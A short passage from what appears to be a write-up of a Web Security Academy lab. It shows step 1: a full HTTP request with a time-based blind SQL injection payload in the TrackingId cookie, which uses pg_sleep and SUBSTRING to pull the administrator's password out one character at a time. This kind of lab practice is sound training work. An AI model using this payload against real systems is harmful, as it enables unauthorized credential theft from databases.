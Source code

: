 
##### Step 1 - Craft a payload that can be used for info retival in intruder
GET /filter?category=Pets HTTP/2
Host: 0afd003c03ada4ae83a1518e00bf0070.web-security-academy.net
Cookie: TrackingId=FDehJOdVRFMOgBgP _'|| CASE WHEN ('h'=SUBSTRING((SELECT password FROM users WHERE username='administrator'), 5, 1)) THEN pg_sleep(10) ELSE pg_sleep(0) END--_; session=ovhWxfjrO1fMggFuPmR6oFF60dCAUlrP
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0afd003c03ada4ae83a1518e00bf0070.web-security-academy.net/filter?category=Pets
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

****